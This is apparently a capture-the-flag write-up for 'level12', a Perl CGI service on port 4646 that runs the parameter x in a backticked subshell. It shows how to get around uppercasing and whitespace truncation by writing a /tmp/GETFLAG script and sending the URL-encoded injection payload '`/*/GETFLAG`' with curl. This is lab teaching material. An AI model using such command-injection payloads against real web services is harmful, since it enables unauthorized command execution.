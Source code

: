 # level12
We are greeted with a perl script that seems to be running on port 4646.  
It takes two parameters labeled `x` and `y`, and seems to do some splitting and pattern matching tomfoolery on `x` with `y`.

But what is interesting is that the content of `x` is dumped into a backticked subshell command. We will be exploiting it.

However, before being executed, the content of `x` goes through two transformations, one which brings all alphabetical characters to uppercase, and the other which cuts everything that comes after a whitespace.

So it won't be possible to directly pass `getflag > /tmp/flag` as a parameter.

# Resolution

We will be creating an executable with an all caps name.
```sh
printf '#!/bin/sh\ngetflag > /tmp/flag\n' > /tmp/GETFLAG
chmod +x /tmp/GETFLAG
```

We will then be trying to run the following: `` `egrep "^`/*/GETFLAG`" /tmp/xd 2>&1` ``   
In such a case of nested backticked shellscripts, perl seems to first execute the inner shellscript, as referenced [here](http://www.novosial.org/perl/backticks/index.html).  
This will cause sh to look for an executable called "GETFLAG" in every folder of `/`, and to execute the first it finds, which will hopefully be our script.

So we will just pass the string `` `/*/GETFLAG` `` as a an x parameter to the CGI endpoint, after having URL-encoded it
```sh
curl localhost:4646?x="%60%2F%2A%2FGETFLAG%60"
```

We can then find our flag on `/tmp/flag`.